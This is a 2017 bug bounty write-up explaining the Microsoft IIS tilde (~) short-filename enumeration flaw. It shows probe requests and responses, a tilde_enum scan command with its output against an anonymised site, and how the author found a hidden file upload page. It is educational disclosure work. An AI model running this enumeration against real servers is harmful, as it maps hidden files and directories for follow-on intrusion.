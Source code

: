 ```yaml
---
title: Microsoft IIS Tilde Enumeration - Legacy Nightmare
date: 07/07/2017
description: Discovery of a rare Microsoft IIS Tilde (~) enumeration bug discovered during a bug bounty programme.
---
```

Recently during a bug bounty program I came across a particularly, "rare" vulnerability that often few people (myself included) don't quite understand. At first glance, the Microsoft IIS Tilde (~) Enumeration vulnerability seems like one of those cases where a feature is a bug (similar to [XXE](https://web.archive.org/web/20190514192329/https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)).

This article aims to dive deeper into the Windows filesystem, the enumeration vulnerability and it's impact on a web application.

> **Note** &mdash; All the information here is from a live bug bounty and not a local test setup to display the vulnerability. Public disclosure has not yet been granted and thus any references to the actual web application have been omitted.

---

## Feature Rich

When creating a new file on a Windows system, a short file name is generated using 8.3 format which can be seen when opening up your command prompt and running `dir /X` like so.

![](../res/microsoft-iis-tilde-enumeration--legacy-nightmare/0lzbW4V.png)

This might seem obvious and not so horrible at first glance. Let's tackle this from a different perspective. I originally had a file named fileupload-20170707-N6L7dR4KcA.aspx which in the 8.3 file format is translated to `FILEUP~1.ASP`. I can now access the resource whilst only having to guess 12 characters instead of 32 and thus **greatly** reduced the total number of combinations required!

Some of you may be asking, "Why the short name?". The answer is essentially, to support old MS-DOS or 16-bit programs; this is the foundation for everything else that occurs throughout this article. That out of the way, enough with the boring stuff. Let's try to get a real target.

## The Target

When an application is powered by ASP.NET there is a good chance that the vulnerability can be found in some form or another. The idea is to cause the application to give a different response for more or less the same resource. However to confirm that the resource exists, I ran two tests.

### First Test

Check that the application will not respond differently when the file actually does not exist. Starting without the `~1` in the path.

#### Request

```none
GET /nonexistent-random-file/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

So far so good, let's try the same thing using the `~1` instead.

#### Request

```none
GET /nonexistent-random-file~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

Same response, which is what we are looking for here. Great, now moving on to the next stage.

### Second Test

We know that the server will always respond with a `404 Not Found` when the file either in normal format or in 8.3 format does not exist. What happens when we try to access a file using 8.3 format that does exist? The server will respond with a `404 Not Found` if the resource does not exist, even if we use 8.3 format. Let's see what we can do to trigger another response.

#### Request

```none
GET /fileup~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache
Content-Type: text/html; charset=utf-8
Pragma: no-cache
Content-Length: 576
```

Bang! The site returned a 200 OK but still told us that the request was rejected:

_Error with your request_

That's great, we managed to get a different response which means there is something lingering in there.

## Extending the Discovery

Testing all of this manually is monkey's work. Let's use an automated tool such as [tilde_enum](https://web.archive.org/web/20190514192329/https://github.com/WebBreacher/tilde_enum) (used Python v2.7.11) instead to see if it finds anything juicy.

We need to first download a WORDLIST for the scanner to use. I happened to use the following [list](https://web.archive.org/web/20190514192329/https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web_Content/raft-small-words-lowercase.txt). Kicking off the scan.

```cmd
C:\tmp\tilde_enum-master>"C:/Python27/python" tilde_enum.py -u https://example.com/ -w raft-small-words-lowercase.txt -f
[-] Testing with dummy file request https://example.com/PLb4ftIiaW.htm
[-] URLNotThere -> HTTP Code: 404, Response Length: 1245
[-] Testing with user-submitted https://example.com/
[-] URLUser -> HTTP Code: 200, Response Length: 3775
[!] You have used the -f switch to force us to scan. Well played. Using the IIS/6 "*~1*/.aspx" string.
[+] Found a directory: advert
[+] Found a directory: app_of
[+] Found a directory: aspnet
[+] Found a directory: associ
[+] Found a directory: buyers
[+] Found a directory: commit
[+] Found a directory: confer
[+] Found a directory: errorp
[+] Found a directory: fileup
[+] Found a directory: fundra
[+] Found a directory: leader
[+] Found file: logo-2 . jpg
[+] Found a directory: mainte
[+] Found a directory: member
[+] Found a directory: messag
[+] Found a directory: resour
[+] Found a directory: subscr
[+] Found a directory: testlo
[+] Found a directory: webbac
[+] Found a directory: webpor
[-] Finished doing the 8.3 enumeration for /.
```

This is only a subset of the entire scan however we already found something juicy in there. From the list I can see filup which as most of you have already guessed, maps to `fileupload.aspx`. Let's find out.

Sending the first request to `fileup~1` like we saw before also return a `200 OK` along with the response.

![](../res/microsoft-iis-tilde-enumeration--legacy-nightmare/rpGofln.png)

Let's try accessing the file directly using `fileupload.aspx` instead and see if it responds with the actual file.

![](../res/microsoft-iis-tilde-enumeration--legacy-nightmare/A5h4l7f.png)

Looks like we just scraped the tip of the iceberg! A random file upload page that isn't linked anywhere in the web application but can be accessed directly; definitely juicy.

## Conclusion

That is all with regards to the Microsoft IIS Tilde Enumeration vulnerability. Below are some references and resources that would help you learn further and into more detail should you wish to.

The vulnerability itself may not seem scary alone but it could definitely expose some sensitive pages or directories to chain into another attack.

--- 

## Resources

* https://www.acunetix.com/blog/web-security-zone/windows-short-8-3-filenames-web-security-problem/
* http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf
* https://github.com/WebBreacher/tilde_enum
